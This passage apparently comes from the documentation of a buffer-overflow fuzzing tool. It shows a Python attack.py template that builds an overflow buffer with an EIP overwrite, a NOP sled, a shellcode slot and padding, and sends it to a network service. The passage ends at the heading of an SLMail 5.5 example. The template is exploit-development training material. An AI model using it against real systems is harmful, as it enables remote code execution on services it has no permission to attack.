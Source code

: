 
#### `attack.py`

In this script everything comes together and you can:
1. Adjust the overflow length
2. Adjust the nop sled length
3. Set EIP address
4. Add shellcode
5. Add padding

There is also not much to write, as you just need to fill variables and most other stuff is simply
auto-calculated.
```python
#!/usr/bin/env python
"""fuzza autogenerated."""

from __future__ import print_function
import socket

def str2b(data):
    """Python2/3 compat."""
    try:
        return data.encode('latin1')
    except UnicodeDecodeError:
        return data

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

len_total    = 300                # Start at len_overflow and try out how much can be overwritten
len_overflow = 296                # Use pattern_create.rb and pattern_offset.rb to find exact offset
len_nop_sled = 0                   # Add x bytes of nops before shellcode for shellcode decoding
eip          = "\x42\x42\x42\x42"  # Change this (Keep in mind to put address in reverse order)
shellcode    = ""

padding = "C"*(len_total - len_overflow - len(str(eip)) - len_nop_sled - len(shellcode))
buffer  = "A"*len_overflow + eip + "\x90"*len_nop_sled + shellcode + padding

print('Trying to send %s bytes buffer...' % (str(len(buffer))))
try:
    s.connect(('host.example.tld', 4444))
    s.send(str2b('' + buffer + '' + '\n'))
    print('done')
except:
    print('Could not connect')
s.close()
```


## Examples

### SLMail 5.5 Buffer overflow
